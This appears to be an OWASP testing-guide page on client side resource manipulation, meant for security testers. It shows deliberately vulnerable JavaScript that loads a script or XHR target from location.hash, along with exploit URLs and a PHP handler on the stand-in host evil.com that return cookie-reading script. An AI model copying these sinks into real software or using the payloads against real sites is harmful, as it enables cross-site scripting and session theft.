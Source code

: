 ## Summary

A Client Side Resource Manipulation vulnerability is an input validation
flaw that occurs when an application accepts an user controlled input
which specifies the path of a resource (for example the source of an
iframe, js, applet or the handler of an XMLHttpRequest). Specifically,
such a vulnerability consists in the ability to control the URLs which
link to some resources present in a web page. The impact may vary on the
basis of the type of the element whose URL is controlled by the
attacker, and it is usually adopted to conduct Cross-Site Scripting
attacks.

## How to Test

Such a vulnerability occurs when the application employs user controlled
URLs for referencing external/internal resources. In these circumstances
it is possible to interfere with the expected application's behavior in
the sense of making it load and render malicious objects.

The following JavaScript code shows a possible vulnerable script in
which the attacker is able to control the "location.hash" (source) which
reaches the attribute "src" of a script element. This particular
obviously leads XSS since an external JavaScript could be easily
injected in the trusted web site.

    <script>
      var d=document.createElement("script");
      if(location.hash.slice(1))
         d.src = location.hash.slice(1);
      document.body.appendChild(d);
    </script>

Specifically the attacker could target the victim by asking her to visit
the following URL:

`www.victim.com/#http://evil.com/js.js`

Where js.js contains:

    alert(document.cookie)

Controlling scripts' sources is a basic example, since some other
interesting and more subtle cases can take place. A widespread scenario
involves the possibility to control the URL called in a CORS request;
since CORS allows the target resource to be accessible by the requesting
domain through a header based approach, then the attacker may ask the
target page to load malicious content loaded on its own web site.

Refer to the following vulnerable code:

    <b id="p"></b>
    <script>
     function createCORSRequest(method, url) {
      var xhr = new XMLHttpRequest();
      xhr.open(method, url, true);
      xhr.onreadystatechange = function () {
       if (this.status == 200 && this.readyState == 4) {
         document.getElementById('p').innerHTML = this.responseText;
       }
      };
      return xhr;
     }

     var xhr = createCORSRequest('GET', location.hash.slice(1));
     xhr.send(null);
    </script>

The “location.hash” is controlled by the attacker and it is used for
requesting an external resource, which will be reflected through the
construct “innerHTML”. Basically the attacker could ask the victim to
visit the following URL and at the same time he could craft the payload
handler.

Exploit URL: www.victim.com/\#http://evil.com/html.html

    http://evil.com/html.html
    ----
    <?php
    header('Access-Control-Allow-Origin: http://www.victim.com');
    ?>
    <script>alert(document.cookie);</script>

### Black Box testing

Black box testing for Client Side Resource Manipulation is not usually
performed since access to the source code is always available as it
needs to be sent to the client to be executed.

### Gray Box testing

**Testing for Client Side Resource Manipulation vulnerabilities:**
To manually check for this type of vulnerability we have to identify
whether the application employs inputs without correctly validating
them; these are under the control of the user which could be able to
specify the url of some resources. Since there are many resources that
could be included into the application (for example images, video,
object, css, frames etc.), client side scripts which handle the
associated URLs should be investigated for potential issues.

The following table shows the possible injection points (sink) that
should be checked:

| scope="col"  | Resource Type                           | scope="col" | Tag/Method | scope="col" | Sink |
| ------------ | --------------------------------------- | ----------- | ---------- | ----------- | ---- |
| Frame        | iframe                                  | src         |            |             |      |
| Link         | a                                       | href        |            |             |      |
| AJAX Request | xhr.open(method, <i>\[url\]</i>, true); | URL         |            |             |      |
| CSS          | link                                    | href        |            |             |      |
| Image        | img                                     | src         |            |             |      |
| Object       | object                                  | data        |            |             |      |
| Script       | script                                  | src         |            |             |      |

The most interesting ones are those that allow to an attacker to include
client side code (for example JavaScript) since it could lead to an XSS
vulnerabilities.

When trying to check for this kind of issues, consider that some
characters are treated differently by different browsers. Moreover
always consider the possibility to try absolute URLs variants as
described here: <http://kotowicz.net/absolute/>

## Tools

  - DOMinator - <https://dominator.mindedsecurity.com/>

## References

**OWASP Resources**

  - [DOM based XSS Prevention Cheat
    Sheet](DOM_based_XSS_Prevention_Cheat_Sheet "wikilink")
  - DOMXSS.com - <http://www.domxss.com>
  - DOMXSS TestCase -
    <http://www.domxss.com/domxss/01_Basics/04_script_src.html>

**Whitepapers**

  - DOM XSS Wiki
    - https://code.google.com/p/domxsswiki/wiki/LocationSources
  - Krzysztof Kotowicz: "Local or External? Weird URL formats on the
    loose" - <http://kotowicz.net/absolute/>